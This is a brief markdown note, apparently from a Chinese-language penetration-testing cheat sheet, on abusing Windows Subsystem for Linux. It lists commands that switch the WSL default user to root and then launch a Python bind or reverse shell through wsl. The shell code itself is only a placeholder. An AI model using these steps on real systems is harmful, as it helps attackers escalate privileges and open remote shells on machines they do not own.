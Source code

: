 # windows 的 linux 子系统的利用

```bash
wsl whoami
C:\Users\**%username%**\AppData\Local\Microsoft\WindowsApps\<具体的系统，如ubuntu.exe>  config --default-user root
wsl whoami   查看是否切换为root权
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

```